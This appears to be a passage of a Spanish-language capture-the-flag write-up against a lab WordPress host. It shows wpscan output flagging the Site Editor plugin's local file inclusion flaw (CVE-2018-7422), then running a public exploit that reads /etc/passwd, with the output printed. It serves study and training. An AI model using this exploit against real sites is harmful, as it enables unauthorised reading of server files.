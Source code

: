 ```
```

Tenemos directorios interesantes, como el **/wp-login.php** 

![Captura de pantalla 2024-10-30 192235](https://github.com/user-attachments/assets/cceb68d9-e585-4594-802f-b0c08a721476)

Para obtener credenciales usamos la herramienta **wpscan** para identificar posibles usuarios, versiones de plugins o vulnerabilidades.

```
[i] Plugin(s) Identified:

[+] site-editor
 | Location: http://asucar.dl/wp-content/plugins/site-editor/
 | Last Updated: 2017-05-02T23:34:00.000Z
 | [!] The version is out of date, the latest version is 1.1.1
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
 |
 | Version: 1.1 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://asucar.dl/wp-content/plugins/site-editor/readme.txt
```

Encontramos un plugin con una versión vulnerable a un LFI  *CVE-2018-7422*

-------------------------------------------------------------------------------------------------------
Explotación 🔥
-------------------------------------------------------------------------------------------------------

El exploit que necesitamos lo podemos encontrar en este repositorio 👉 https://github.com/jessisec/CVE-2018-7422

Siguiendo los pasos de las instrucciones, tendremos la información del archivo **/etc/passwd**

```
python3 CVE-2018-7422.py -u http://asucar.dl -i
site-editor-lfi $> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```